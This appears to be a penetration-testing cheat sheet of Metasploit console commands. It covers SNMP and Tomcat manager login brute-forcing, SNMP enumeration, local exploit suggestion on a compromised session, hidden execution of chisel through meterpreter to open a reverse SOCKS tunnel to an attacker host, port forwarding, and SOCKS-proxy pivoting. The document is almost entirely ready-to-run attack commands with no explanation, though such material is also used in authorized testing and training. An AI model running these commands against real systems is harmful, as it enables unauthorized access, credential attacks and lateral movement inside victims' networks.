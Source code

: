 ### Enumeration

#### SNMP Scan

```console
msf6 > use auxiliary/scanner/snmp/snmp_login
msf6 auxiliary(scanner/snmp/snmp_login) > set RHOSTS <RHOST>
msf6 auxiliary(scanner/snmp/snmp_login) > run
```

#### SNMP Enum

```console
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS <RHOST>
msf6 auxiliary(scanner/snmp/snmp_enum) > run
```

#### Tomcat Enumeration

```console
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <RHOST>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

#### Exploit Suggester

```console
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Execute Binaries

#### Port Forwarding with Chisel

```console
meterpreter > execute -Hf chisel.exe -a "client -v <LHOST>:<LPORT> R:1092:socks"
```

### Pivoting

#### Port Forwarding with Meterpreter

```console
meterpreter > portfwd add -L 127.0.0.1 -l <LPORT> -p <RPORT> -r <RHOST>
```

#### SOCKS Proxy on Meterpreter Sessions

```console
msf6 > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > set SRVPORT 1080
msf auxiliary(server/socks_proxy) > set VERSION 5
msf auxiliary(server/socks_proxy) > run -j
msf auxiliary(server/socks_proxy) > route add <NETWORK> <SESSION_ID>
msf auxiliary(server/socks_proxy) > route print
```
